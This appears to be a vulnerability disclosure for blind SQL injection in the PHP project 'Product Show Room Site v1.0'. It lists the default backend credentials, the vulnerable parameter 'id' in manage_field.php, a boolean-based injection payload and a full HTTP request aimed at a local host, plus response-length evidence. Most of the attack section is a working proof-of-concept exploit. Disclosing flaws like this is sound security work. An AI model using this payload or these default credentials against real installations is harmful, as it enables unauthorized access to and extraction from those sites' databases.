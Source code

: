 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/fields/manage_field.php?id=

Vulnerability location: /psrs/admin/fields/manage_field.php?id=, id

Current database name: psrs_db ,length is 7

[+] Payload: /psrs/admin/fields/manage_field.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/fields/manage_field.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 2889
![image](https://user-images.githubusercontent.com/54017627/171830272-2cee4f44-c3cc-40a8-b5b6-ee96ee6f6ed0.png)

![image](https://user-images.githubusercontent.com/54017627/171830332-9e7a33d7-15fd-427d-816a-cf2c3a827fb5.png)

When length (database ()) = 7, Content-Length: 2906
![image](https://user-images.githubusercontent.com/54017627/171830233-bab5f730-b2d9-4826-b462-62e3510d1895.png)

![image](https://user-images.githubusercontent.com/54017627/171830297-db8b0e21-bd63-40ef-97ff-d4cd1a7bbac3.png)
